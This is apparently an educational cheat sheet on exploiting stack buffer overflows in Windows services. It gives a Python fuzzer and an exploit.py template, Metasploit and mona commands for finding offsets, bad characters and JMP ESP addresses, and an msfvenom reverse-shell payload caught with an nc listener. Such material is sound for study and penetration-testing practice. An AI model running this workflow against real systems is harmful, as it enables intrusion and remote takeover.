 # Stack Buffer Overflow enumeration and exploitation
* [A piece of theory](#a-piece-of-theory)
    * [Definitions](#definitions)
    * [Graphical presentation](#graphical-presentation)
* [Tools](#tools)
    * [Immunity Debugger](#immunity-debugger)
    * [Mona](#mona)
* [Enumeration](#enumeration)
    * [Fuzzing](#fuzzing)
    * [Finding the EIP offset](#finding-the-eip-offset)
    * [Finding bad chars](#finding-bad-chars)
    * [Finding a jump point](#finding-a-jump-point)
* [Exploitation](#exploitation)
    * [Generating a payload](#generating-a-payload)
    * [Adding NOPs](#adding-nops)
    * [Getting the reverse shell](#getting-the-reverse-shell)

## A piece of theory
### Definitions
- **Stack frame** - function-specific section of the stack. 
- **ESP**  _(Extended Stack Pointer)_ points to the current top of the stack. It's changed every time something is pushed/popped to the stack.
- **EBP** _(Extended Base Pointer)_ points to the previous frame's base pointer.
- **EIP** _(Extended Instruction Pointer)_ points to the next executing command.
- **JMP ESP** - instruction to jump to the current top of the stack _(encoded as `\xFF\xE4`)_.
- **NOP** _(no operation)_ - instruction to do nothing and jump to the next instruction in the flow _(Intel x86 NOP opcode is `\x90`)_.

### Graphical presentation
![](buffer_overflow_diagram.png)

## Tools
### Immunity Debugger
- Download and install: https://debugger.immunityinc.com/ID_register.py
- Always run it **as Administrator**.
- Use `File -> Attach` for already running apps and services or use `File -> Open` to run executable _(some services should be restarted using `sc stop/start <service_name>`)_.
- Unpause application.
- Use the Windows menu to jump between mona results, log data, and CPU.

### Mona
- Download it: https://raw.githubusercontent.com/corelan/mona/master/mona.py
- Copy it to the PyCommands folder _(default path is `C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands`)_.
- Set working directory for Mona in Immunity Debugger:
```bash
!mona config -set workingfolder c:\mona\buffer_overflow
```

## Enumeration
### Fuzzing
- Create `fuzzer.py`:
```python
import socket, time, sys

ip = "<ip>"
port = <port>
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("<command> " + string + "\r\n") # Add space after the command
        s.recv(1024)
        s.send("QUIT\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```
- Run using `python` or `python2`.

### Finding the EIP offset
- Create the `exploit.py` file:
```python
import socket

ip = "<ip>"
port = <port>

prefix = "<command> " # Add space after the command
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```
- Set the payload value:
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length> # Value of fuzzing + couple hundred extra bytes.
```
- Run using `python` or `python2`.
- Get EIP offset by running `pattern_offset.rb`:
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q <eip_register>
```
- Set EIP `offset` in the `exploit.py`, empty the `payload`, and set `retn` value to `BBBB`.
- Run again and check the EIP register in the Registers window. It should be `42424242` now.

### Finding bad chars
-  Generate a bytearray using mona, and exclude the null byte _(`\x00`)_:
```bash
!mona bytearray -b "\x00"
```
- Copy chars to the `payload` of the `exploit.py` and run it again:
```python
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
- Compare chars using mona:
```bash
!mona compare -f C:\mona\buffer_overflow\bytearray.bin -a <esp_address>
```
- Note all bad chars except for the `00`.
- Generate bytearray again excluding bad chars _(notice, often the byte after the bad char gets corrupted, so it's better to include only the first one of the sequence)_:
```bash
!mona bytearray -b "\x00<other_bad_chars_here>"
```
- Remove bad chars from the `payload` of the `exploit.py` and run it again.
- Compare chars again.
- Continue this process till there are no bad chars.

### Finding a jump point
- Find all `jmp esp` using mona:
```bash
!mona jmp -r esp -cpb "\x00<other_bad_chars_here>"
```
- Take any of addresses that have no protection and put it in the `retn` variable of the `exploit.py`, but backwards _(for example: `625011AF -> \xaf\x11\x50\x62`)_.

## Exploitation
### Generating a payload
- Generate a payload including all bad chars:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 EXITFUNC=thread -b "\x00<other_bad_chars>" -f py # sometimes it's better to use C as the filetype
```
- Copy `buf` variable to the `exploit.py` file and set `payload` equal to it.

### Adding NOPs
- Since pointers may change a bit it's better to add NOPs to "slide" to the right position _(add this to `exploit.py`)_:
```python
padding = "\x90" * 16 # May be more than 16
```

### Getting the reverse shell
- Just listen to the reverse shell and run `exploit.py`:
```bash
rlwrap nc -lvnp 443
```
